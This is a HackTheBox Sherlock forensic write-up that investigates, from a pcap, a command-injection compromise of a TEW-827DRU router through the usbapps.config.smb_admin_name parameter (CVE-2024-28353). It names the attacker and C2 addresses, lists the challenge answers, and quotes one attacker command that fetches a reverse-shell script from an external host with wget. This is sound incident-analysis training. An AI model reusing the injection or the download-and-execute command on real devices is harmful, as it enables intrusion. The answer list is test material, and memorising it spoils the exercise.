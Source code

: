 # [HackTheBox Sherlocks - Trent](https://app.hackthebox.com/sherlocks/Trent)
Created: 17/02/2025 13:15
Last Updated: 19/02/2025 13:14
* * *
![ca4f203679a302944eaea19f43b49ca6.png](..//resources/ca4f203679a302944eaea19f43b49ca6.png)

**Scenario:**
The SOC team has identified suspicious lateral movement targeting router firmware from within the network. Anomalous traffic patterns and command execution have been detected on the router, indicating that an attacker already inside the network has gained unauthorized access and is attempting further exploitation. You will be given network traffic logs from one of the impacted machines. Your task is to conduct a thorough investigation to unravel the attacker's Techniques, Tactics, and Procedures (TTPs).

* * *
>Task 1: From what IP address did the attacker initially launched their activity?

We only have 1 pcap file to work with so after opened it on Wireshark, I realized that there are a lot of HTTP requests which mean the attacker might communicated with router vie web interface

![500fe7e8d09a47a878d1225b104a7eed.png](..//resources/500fe7e8d09a47a878d1225b104a7eed.png)

When the attacker sent anything to server, such as credential to login, file upload, command via webshell, the HTTP request method that used to carry out these activities are POST request

So I filtered with `http.request.method == POST` to only have HTTP POST requests then we could see total of 47 HTTP POST request but almost half of them are localhost sending to localhost (self) and from Network 101, we know that an IP address end with 1 is a gateway or a router in this case which make another IP address an IP address within the network and we could suspect it to be an IP address of the attacker.

![09d7721b0bc45ac5bb3ef222e6c4569e.png](..//resources/09d7721b0bc45ac5bb3ef222e6c4569e.png)

By trying to understand what happened, I kept inspecting each POST request which I finally found that potential command injection on the router so our hypothesis is confirmed at this point.

```
192.168.10.2
```

>Task 2: What is the model name of the compromised router?

![b993027582c0015846dfab2ce65c8355.png](..//resources/b993027582c0015846dfab2ce65c8355.png)

By searching for "model" string, we can see that there is model name of the router on defined on the web interface 

```
TEW-827DRU
```

>Task 3: How many failed login attempts did the attacker try before successfully logging into the router?

![4461dd4dea1c4dec15e44097dfe7b73c.png](..//resources/4461dd4dea1c4dec15e44097dfe7b73c.png)

Now after filter out localhost with `http.request.method == POST && ip.addr == 192.168.10.2` then by inspecting first 3 HTTP POST requests (/apply_sec.cgi), we could see that there are 2 attempts to login into the router before successfully logged with with admin user without a password.

```
2
```

>Task 4: At what UTC time did the attacker successfully log into the routers web admin interface?

![20b0143cb0735b0db632da044bcee9e0.png](..//resources/20b0143cb0735b0db632da044bcee9e0.png)
```
2024-05-01 15:53:27
```

>Task 5: How many characters long was the password used to log in successfully?	
```
0
```

>Task 6: What is the current firmware version installed on the compromised router?

![d40b4df9d4c4dd44a926a524fa99f5cf.png](..//resources/d40b4df9d4c4dd44a926a524fa99f5cf.png)

We can filter for "fw" or "version" string which will lead us that the js file that will get router information which the firmware version will be stored in `fw_ver`

![654a9cdd77bf7ab381349d7951890d9b.png](..//resources/654a9cdd77bf7ab381349d7951890d9b.png)

Now we know that this router shorten the string "firmware" to "fw" so we can continue to search with "fw" then we will see that current firmware version installed on the router right here.

```
2.10
```

>Task 7: Which HTTP parameter was manipulated by the attacker to get remote code execution on the system?

![e1833f6e9cf7eff9d1f2da83e9a60066.png](..//resources/e1833f6e9cf7eff9d1f2da83e9a60066.png)

From the task 1, we know that there was an os command injection attempts on `usbapps.config.smb_admin_name` parameter 

![1ff0c01390077165d27cef040db6a4c2.png](..//resources/1ff0c01390077165d27cef040db6a4c2.png)

We can also confirm the other POST command with different payload, on this case we can see that the attacker tried to download bash script from the attacker IP address on port 8000.

![cea1b390d44eb0ec8e818ce203a6d730.png](..//resources/cea1b390d44eb0ec8e818ce203a6d730.png)

I made life easier by opened this pcap file on NetworkMiner than by filtered with common strings in os command injection payload we found then we will see that the attacker tried to download this bash script many times and once it got downloaded then the attacker used bash to execute it  

```
usbapps.config.smb_admin_name
```

>Task 8: What is the CVE number associated with the vulnerability that was exploited in this attack?

![93bedc9109b0ed3ed11cfb164e3573f0.png](..//resources/93bedc9109b0ed3ed11cfb164e3573f0.png)

We have to approach here, by filtering for router model and firmware or by filtering for vulnerable parameter which will lead to one CVE which is [CVE-2024-28353 command injection vulnerability](https://warp-desk-89d.notion.site/TEW-827DRU-5c40fb20572148f0b00f329d69273791).


```
CVE-2024-28353
```

>Task 9: What was the first command the attacker executed by exploiting the vulnerability?

![155f9c86c4056ffb8177e32dab26bb5c.png](..//resources/155f9c86c4056ffb8177e32dab26bb5c.png)
We know that the first command that the attacker tested and executed is `whoami`

```
whoami
```

>Task 10: What command did the actor use to initiate the download of a reverse shell to the router from a host outside the network?

![e100d8842a11a63f3855f0dd20fc9cfe.png](..//resources/e100d8842a11a63f3855f0dd20fc9cfe.png)

As we can see that the attacker tried to download file from both external host and internal host 

```
wget http://35.159.25.253:8000/a1l4m.sh
```

>Task 11: Multiple attempts to download the reverse shell from an external IP failed. When the actor made a typo in the injection, what response message did the server return?	


![a639b1ecacb98acad8491281499ff919.png](..//resources/a639b1ecacb98acad8491281499ff919.png)

We can see that there is a little different on the command to get bash script from an external host right here so i suspected that this must be the typo made by the attacker.

![b7cf3c2119791c3bced97427a05df08b.png](..//resources/b7cf3c2119791c3bced97427a05df08b.png)

Lets go back to Wireshark, we can see the same payload on packet number 51885 so lets follow the stream of this request.

![b8b52ac1f3ee6e983d663dd7bfbbf1ee.png](..//resources/b8b52ac1f3ee6e983d663dd7bfbbf1ee.png)

Look at the HTTP response, then we can see the error message right here.

```
Access to this resource is forbidden
```

>Task 12: What was the IP address and port number of the command and control (C2) server when the actor's reverse shell eventually did connect? (IP:Port)

![1fbe192ee598b128f5bd04c728aaea91.png](..//resources/1fbe192ee598b128f5bd04c728aaea91.png)

We have 2 approaches on this question, since we know that the file was requested via HTTP then we could use Wireshark to export HTTP object right here.

![28b339c6ffda65355d93fe89294d7abd.png](..//resources/28b339c6ffda65355d93fe89294d7abd.png)

But i don't want to export it so I clicked the object which lead me to packet number 74345 and then I followed HTTP/TCP stream and inspect the response from the attacker machine which is the content of bash script and as we can see on the image that this is reverse shell command to connect to an external IP address on port 41143

![ad08a1ca00b3ca909ea19789410d004c.png](..//resources/ad08a1ca00b3ca909ea19789410d004c.png)

Take an extra step to filter on this port but evidently, there is no any packets from this filter so we can assume that the attacker failed to establish reverse shell connection from the script.

![3bff12aa938811e26589239ee37042c7.png](..//resources/3bff12aa938811e26589239ee37042c7.png)

Now, we came to the second approach that is using NetworkMiner and it will assemble files within pcap automatically upon opening the pcap file so if we opened the file from NetworkMiner then we will also have the same script we found earlier as well.

```
35.159.25.253:41143
```

![14d2784a332c149451fb30174a4677e6.png](..//resources/14d2784a332c149451fb30174a4677e6.png)
https://labs.hackthebox.com/achievement/sherlock/1438364/841
* * *
